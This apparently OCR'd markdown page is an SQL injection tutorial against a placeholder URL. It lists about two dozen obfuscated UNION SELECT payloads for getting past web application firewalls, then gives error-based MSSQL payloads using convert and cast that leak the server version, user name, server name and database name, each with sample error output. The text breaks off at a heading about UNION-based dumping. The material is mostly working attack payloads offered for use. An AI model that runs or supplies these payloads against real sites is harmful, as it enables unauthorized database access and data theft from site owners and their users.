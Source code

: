 ```http://domain.com/index.php?id=1```  
    http://domain.com/index.php?id=1 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C 1,2,3,4-- -
    http://domain.com/index.php?id=1 /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union+sel%0bect 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +#1q%0Aunion all#qa%0A#%0Aselect 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %23xyz%0AUnIOn%23xyz%0ASeLecT+ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %23xyz%0A%55nIOn%23xyz%0A%53eLecT+ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union(select(1),2,3)-- -  
    http://domain.com/index.php?id=1 uNioN (/*!/**/ SeleCT */ 11) 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +/*!UnIoN*/+/*!SeLeCt*/+ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 uni%20union%20/*!select*/%20 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union%23aa%0Aselect 1,2,3,4-- -  
    http://domain.com/index.php?id=1/**/union/*!50000select*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /^****union.*$/ /^****select.*$/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*union*/union/*select*/select+ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!50000UnION*//*!50000SeLeCt*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %252f%252a*/union%252f%252a /select%252f%252a*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 AnD null UNiON SeLeCt 1,2,3,4;%00-- -  
    http://domain.com/index.php?id=1 AnD null UNiON SeLeCt 1,2,3,4+--+-  
    http://domain.com/index.php?id=1 And False Union Select 1,2,3,4+--+-  
    

We bypassed the WAF and found that the 3nd column has the information.

## Dumping database (Boolean string)

```http://domain.com/index.php?id=1'and 1=convert(int,@@version)--```  
```http://domain.com/index.php?id=1'and 1=cast(@@version as int)-- -```  
Both payloads will return the same error, with the version output.  
>Error: Warning: mssql_query() message: COnversion failed when converting the nvarchar value "**Microsoft SQL Server 2012 (SP1) - 110.0.3156.0 (X64) Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows NT 6.2 X64 (Build 9200: ) (Hypervisor)**" to data type int. (severity 16 in D:\something\web\STD\...\id.php on line...

```http://domain.com/index.php?id=1'and 1=convert(int,user_name())--```  
```http://domain.com/index.php?id=1'and 1=cast(user_name as int)-- -```  
Both payloads will return the same error, with the version output.  
>Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value '**admin_user**' to data type int. (severity 16) in D:\something\web\STD\...\id.php on line...

```http://domain.com/index.php?id=1'and 1=convert(int,@@SERVERNAME())--```  
```http://domain.com/index.php?id=1'and 1=cast(@@SERVERNAME as int)-- -```  
Both payloads will return the same error, with the server name output.  
>Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value '**SERVER_NAME_HERE**' to data type int. (severity 16) in D:\something\web\STD\...\id.php on line...

```http://domain.com/index.php?id=1'and 1=convert(int,db_name())--```  
```http://domain.com/index.php?id=1'and 1=cast(db_name() as int)-- -```  
Both payloads will return the same error, with the database name output.  
>Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value '**store_database**' to data type int. (severity 16) in D:\something\web\STD\...\id.php on line...

## Dumping database (UNION based query)

```